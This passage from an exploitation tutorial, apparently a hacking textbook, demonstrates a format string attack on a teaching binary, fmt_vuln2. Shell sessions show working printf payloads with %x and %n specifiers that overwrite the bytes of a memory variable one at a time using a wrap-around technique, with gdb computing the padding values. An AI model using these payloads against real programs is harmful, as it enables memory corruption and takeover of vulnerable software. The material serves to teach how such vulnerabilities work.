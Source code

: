 Instead of trying to subtract _34_ from _205_, the least significant byte is just wrapped around to _0x1AB_ by adding _222_ to _205_ to produce _427_, which is the decimal representation of _0x1AB_. This technique can be used to wrap around again and set the least significant byte to _0x06_ for the third write.

<pre style="color: white;">
reader@hacking:~/booksrc $ gdb -q --batch -ex "p 0x1ab - 0xcd"
$1 = 222
reader@hacking:~/booksrc $ gdb -q --batch -ex "p /d 0x1ab"
$1 = 427
reader@hacking:~/booksrc $ ./fmt_vuln2 $(printf "\xf4\x97\x04\x08JUNK\xf5\x97\x04\x08JUNK\xf6\
x97\x04\x08JUNK\xf7\x97\x04\x08")%x%x%161x%n%222x%n
The right way to print user-controlled input:
??JUNK??JUNK??JUNK??%x%x%161x%n%222x%n
The wrong way to print user-controlled input:
??JUNK??JUNK??JUNK??bffff3b0b7fe75fc
0
4b4e554a
[*] test_val @ 0x080497f4 = 109517 0x0001abcd
[*] next_val @ 0x080497f8 = 286331136 0x11111100
reader@hacking:~/booksrc $ gdb -q --batch -ex "p 0x06 - 0xab"
$1 = -165
reader@hacking:~/booksrc $ gdb -q --batch -ex "p 0x106 - 0xab"
$1 = 91
reader@hacking:~/booksrc $ ./fmt_vuln2 $(printf "\xf4\x97\x04\x08JUNK\xf5\x97\x04\x08JUNK\xf6\
x97\x04\x08JUNK\xf7\x97\x04\x08")%x%x%161x%n%222x%n%91x%n
The right way to print user-controlled input:
??JUNK??JUNK??JUNK??%x%x%161x%n%222x%n%91x%n
The wrong way to print user-controlled input:
??JUNK??JUNK??JUNK??bffff3b0b7fe75fc
0
4b4e554a
4b4e554a
[*] test_val @ 0x080497f4 = 33991629 0x0206abcd
[*] next_val @ 0x080497f8 = 286326784 0x11110000
reader@hacking:~/booksrc $
</pre>

With each write, bytes of the __next_val__ variable, adjacent to __test_val__, are being overwritten. The wrap around technique seems to be working fine, but a slight problem manifests itself as the final byte is attempted.

<pre style="color: white;">
reader@hacking:~/booksrc $ gdb -q --batch -ex "p 0x08 - 0x06"
$1 = 2
reader@hacking:~/booksrc $ ./fmt_vuln2 $(printf "\xf4\x97\x04\x08JUNK\xf5\x97\x04\x08JUNK\xf6\
x97\x04\x08JUNK\xf7\x97\x04\x08")%x%x%161x%n%222x%n%91x%n%2x%n
The right way to print user-controlled input:
??JUNK??JUNK??JUNK??%x%x%161x%n%222x%n%91x%n%2x%n
The wrong way to print user-controlled input:
??JUNK??JUNK??JUNK??bffff3a0b7fe75fc
0
4b4e554a
4b4e554a4b4e554a
[*] test_val @ 0x080497f4 = 235318221 0x0e06abcd
[*] next_val @ 0x080497f8 = 285212674 0x11000002
reader@hacking:~/booksrc $
</pre>
